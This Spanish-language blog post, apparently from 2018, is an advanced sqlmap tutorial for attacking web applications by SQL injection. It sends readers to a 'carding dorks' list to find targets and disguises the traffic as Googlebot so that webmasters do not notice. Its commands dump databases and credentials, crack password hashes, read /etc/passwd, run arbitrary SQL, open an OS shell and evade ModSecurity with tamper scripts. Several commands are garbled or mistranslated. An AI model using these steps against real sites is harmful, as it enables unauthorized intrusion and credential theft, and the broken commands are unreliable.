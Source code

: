 ```yaml
---
title: Uso avanzado de sqlmap - sql injection
date: 2018-12-29
categories: [Pentesting, Herramientas]
excerpt: SQL INJECTION
tags: [Injection, sql]
---
```



## ¿Que es SQLMAP?
---

Es una herramienta desarrollada en el lenguaje de programación Python y sirve para hacer SQL injection automatizado en otras palabras aprovecha las vulnerabilidades de inyección SQL en aplicaciones web en la cual se puede llegar hacer distintas cosas, por ejemplo:  
  
- Enumerar bases de datos  
- Enumerar las tablas y columnas de una base de datos. 
  
- Enumerar los usuarios con su respectiva contraseña.  
  
- Descifrar los hashes de contraseñas .  
  
- Leer archivos específicos del sistema de archivo de un host especifico y mucha mas cosas.  
  
 ![sqlmap](/assets/img/post/04/sqlmap.png) 

### Uso practico
-----
Para empezar tenemos que elegír una Dork aquí les dejare unas 2k+ de Dorks de Google [Dorks](https://itechhacks.com/latest-fresh-carding-dorks-2016/)  
  
```bash  
sqlmap -u [URL] -D privacidaddb --tables --user-agent="Mozilla 5 (compatible , Googlebot/2.1, [http://www.google.com/bot.html)"](https://www.google.com/bot.html)
```

Comenzamos con este código antes de comenzar con lo más emocionante por decirlo así, pero la pregunta es: ¿Para qué sirve esto? Este comando sirve para camuflar nuestra conexión como un robot de google ya que siempre esta vigente a las conecciones vigentes de inicio ¿Que pasa si no hacemos esto? Simplemente dejarias a descubierto la conexion que estamos conectados de una manera textual y el web master se dara cuenta que estamos inyectando su web y hasta puede saber que programa estamos usando, etc.  

### Obtener datos del usuario de la web
-----
  
```bash
sqlmap -u [URL] --current-user
```

Ahora comprobemos si es correcto el usuario que tenemos de la base de datos  
  
```bash
sqlmap -u [URL] --is-dba --current-db 
```

Para ver los privilegios de administradores activados  

```bash
sqlmap -u [URL] --privileges**  
```

Para obtener todos los usuarios de DBS  
  

```bash
sqlmap -u [URL] --users
```
  
Podremos ver en donde corre y que usuario está alojado puede ser root u otro  
  
Para obtener las contraseñas de los usuarios de las dbs  
  
  
```bash
sqlmap -u sqlmap -u [URL] --password
```  
  
  
Nos saldrá un mensaje con unas opciones y tendremos que elegir según las letras ["Y" , "N", "Q"] ¿Por que sale esto? porque las contraseñas de los registros de las bases de datos se codifican automáticamente en Hash y en MD5 son las más conocidas, en fin...  
  
- Y = Es para hacer un ataque de fuerza bruta para descifrar el hash  
  
- N = Es para negar la anterior opción y obtener solo la hash  
  
- Q = Para terminar el proceso hasta ese momento

Ponemos Q y luego nos saldrán 3 opciones y escogemos el diccionario 1 /defauld  
  
Después nos dará la siguiente información que es la contraseña crackeada y el usuario. También podemos hacer una búsqueda más avanzada pero tenemos que tener en cuenta de como usar los nombres en las búsquedas  

```bash
sqlmap -u [URL] -C login --search**  
```  

Nos saldrán dos opciones y elegiremos la primera que es para tener una lista opcional de la búsqueda nos permitirá hacer un dump de las columnas encontradas en la DBS ponemos la opción "a" ¿Por que? esto hará un dump general  


### Obtener información de la web:
---
  
```bash
sqlmap -u [URL] --dbs -u = Target UR (e.g. “http://www.example.com/cgi-bin/item.cgi?item_id=15" --dbs 
``` 
  
Sigamos revisando la base de datos  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] --tables  
```  
  
Después nos saldrá otra tabla usaremos otro comando, pero explicare que las letras en mayúscula, por ejemplo, -D son abreviadas, porque -D es el nombre de la base de datos, o sea **--dbs** recuerda que siempre deben ir en mayúscula **-T** es **--tables**  
  
  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente] --columns
```
  
  
Ahora que tenemos las columnas visibles vamos a extraer datos de una tabla  
  
  
```bash
sqlmap -u [URL] --dump -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente]  
```  
  
Nos puede salir algo similar a esto:  
  
  
  
| id | hash | nombre | correo electrónico | contraseña | permiso | inicio_sistema | system_allow_only |  
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- |  
| 1 | 5DIpzzDHFOwnCvPonu | admin | En blanco | <en blanco> | 3 | En blanco | En blanco | 

  
Usemos otro comando hasta ahora hemos tenido mucha información de la tabla. La columna hash parece tener el hash de contraseña puede descifrarlo y obtener los datos para iniciar sesión lo que hará slqmap es crear un archivo csv que tendrá los datos volcados para facilitar el análisis  
    
En el siguiente comando se usará para tener el banner exacto del servidor de la base de datos cuando nos salga el banner de mysql nos mostrará la versión mysql que se ha estado usando cuando tengas la versión buscamos en google una vulnerabilidad de MySQL a esa versión que tenemos  
  
  
```bash
sqlmap -u [URL] -b
```  
Para leer un archivo de sistema tenemos que tener permisos para la operación de ARCHiVO los unico que podemos leer son los archivos legibles o legibles por el usuario de mysql, por ejemplo:  
  
  
```bash
sqlmap -u [URL] --file-read = / etc / passwd --threads = 10
```
  
  
Solo es ejemplo, pero ¿Qué estamos haciendo? Sqlmap alamencera el archivo en nuestro directorio para que podamos leerlo después  
  
  
```bash
sqlmap -u [URL] --sql-query = "seleccionar ahora ();"
```
  
Lo que hicimos fue ejecutar el comando sql arbitrario el cual sirve para ejecutar consultas sql arbitrarias en la base de datos  

  
### Comandos curiosos 
----
	
```bash
sqlmap -u [URL] --fingerprint -random-agent
```  
	
-u: URL  
  
--fingerprint: Captura el flag arg para analizar  
  
--random-agent: Pide el navegador por defecto**  
  
Definir el parámetro a explotar  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --dbs -p param2
```
  
  
  
Si la url tiene URI´s bonitas  
  
  
```bash  
sqlmap --dbms=mysql -u "http://XXXXXXXXXXX/detail/code/value1*/param2/value2" --dbs
```
  
  
Ejecutar consultas directametne  
  
```bash  
sqlmap --dbms=mysql -u [URL] -D "BASEDEDATOS" --sql-query "SELECT * FROM TABLAS;"
 ```
  
  
Conseguir Shell del sistema si es que es viable  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --os-shell**  
```
	
### Evadiendo el Mod_Security con Tampers de sqlmap
-----

Alguna vez cuando hacemos inyección por GET en alguna web a veces nos aparece un anuncio de Mod_Security al cual no deja inyectar, pero usando sqlmap y con sus Tampers podremos sacarnos de este apuro. Puedes encontrar información de cada Tamper cada archivo tiene su explicación de su funcionalidad solo tiene que ir a sqlmap/tamper/  
  
### ¿Cómo usamos Tamper en SQLMAP? 
----	
	
Es fácil solo se debe utilizar el siguiente comando o agregar la opción  
  
  
```bash
--tamper [Nombre del Tamper]**  
```
	
En otras palabras:
	
![tampers](/assets/img/post/04/tampers.png)

```bash
sqlmap.py -u [URL] --dbms "MySQL" -p [marca_id] --tamper "modsecurityzeroversioned.py" --batch
```
Ahora que sabemos esto de evadir los filtros y los WAF, gracias a la herramienta qué carga las reglas del script de sabotaje para lo mencionado, pero sabías que podemos usar todos en una línea? Ejemplo:  

### Bajar la clase de seguridad y mas

  
Podemos hacer otro ataque en donde haremos un escaneo de la URL vereficando las cookies y a lo último hace un string para poder ver la base de datos y no solo también podremos bajar la clase de seguridad de la página, pero espera antes necesitamos dos cosas URL y cookie podemos obtener esta información con BurpSuite y después usar sqlmap digamos que ya tenemos eso, pero y ahora que? Simplemente ya podemos usar el siguiente comando:  
  
```bash
sqlmap -u '[URL]' --cookie='[cookie]' --string=Surname --dbs
```